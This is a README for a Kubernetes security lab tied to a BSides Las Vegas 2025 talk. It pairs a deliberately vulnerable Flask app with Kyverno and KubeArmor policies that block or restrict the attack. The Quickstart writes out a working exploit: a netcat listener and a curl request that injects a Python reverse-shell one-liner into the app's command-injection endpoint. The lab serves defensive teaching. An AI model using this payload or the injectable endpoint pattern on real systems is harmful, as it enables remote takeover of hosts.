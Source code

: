 # Kubernetes Enforcement Lab

This repo contains the full scenario from the **BSides Las Vegas 2025** talk: _"Detect and Respond? Cool Story — or Just Don’t Let the Bad Stuff Start."_

We walk through an end-to-end Kubernetes security journey using a vulnerable Flask app, and explore how tools like **Kyverno**, **KubeArmor**, and **eBPF detection** can prevent or detect runtime threats.

---

## Directory Structure

\`\`\`
k8s-enforcement-lab/
├── RootDockerfile                     # Vulnerable app container with root
├── NonRootDockerfile                  # Vulnerable app container without root
├── app.py                             # Flask app with OS command injection
├── templates/                         # HTML for test payloads
├── manifests/                         # Various Tests and Policies
│   ├── insecure.yaml                  # Insecure workload spec (runs as root) and NodePort Service
│   ├── kyverno-block-root.yaml        # Kyverno policy to block insecure pods
│   └── kubearmor-mailroom-locks.yaml  # KubeArmor policy to restrict runtime behavior
├── README.md
\`\`\`

---

## App
The app is a basic Python Flask server with an OS command injection vulnerability at \`/cmd\`. It simulates a realistic reverse shell scenario. The containers in the manifests are in Dockerhub so you don't have to create images if you so desire. All of this has been tested in a Kubeadm cluster with no problems.

## Scenarios
Each directory in \`manifests/\` shows a different security stage:
- **insecure.yaml**: Baseline Workload — no security controls
- **secure.yaml**: Secure Workload - disallow root containers
- **kyverno-block-root.yaml**: Admission control with Kyverno
- **kubearmor-mailroom-locks.yaml**: Runtime enforcement with KubeArmor

---

## Talk Slides
- [BSides Las Vegas 2025 PDF](./BSidesLV2025_Talk.pdf)

---

## Related Blog Posts @ [cloudsecburrito.com](https://cloudsecburrito.com)

- [📘 Setting Up Your Lab Cluster](https://cloudsecburrito.com/lab-cluster-setup)
- [🔧 Blocking Root Containers with Kyverno](https://cloudsecburrito.com/kyverno-part-2)
- [🔐 Locking Down Runtime Behavior with KubeArmor](https://cloudsecburrito.com/kubearmor-series)

---

## Quickstart (the slides show all the scenarios but this might be helpful)

### Deploy Vulnerable Workload and Service
\`\`\`bash
kubectl apply -f manifests/insecure.yaml
\`\`\`

### Run the hack
Listener in one terminal assuming Mac:
\`\`\`bash
nc -l 4444
\`\`\`

RCE in other terminal:
\`\`\`bash
curl "http://\"app_ip_address\":30080/cmd" \
  --get \
  --data-urlencode 'input=python3 -c "import socket,os,pty;s=socket.socket();s.connect((\"host_ip_address\",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"sh\")"'
\`\`\`

### For full root block:
\`\`\`bash
kubectl apply -f manifests/kyverno-block-root.yaml
\`\`\`

### Deploy Non Root workload:
\`\`\`bash
kubectl apply -f manifests/secure.yaml
\`\`\`

### Create runtime enforcement policy:
\`\`\`bash
kubectl apply -f manifests/kubearmor-mailroom-locks.yaml
\`\`\`

### Test runtime enforcement policy:
\`\`\`bash
kubectl apply -f manifests/secure.yaml
\`\`\`

### Reuse RCE and try to start Python listener or write to tmp

---

## Credit
Created by [Matt Brown](https://cloudsecburrito.com) — for BSidesLV 2025
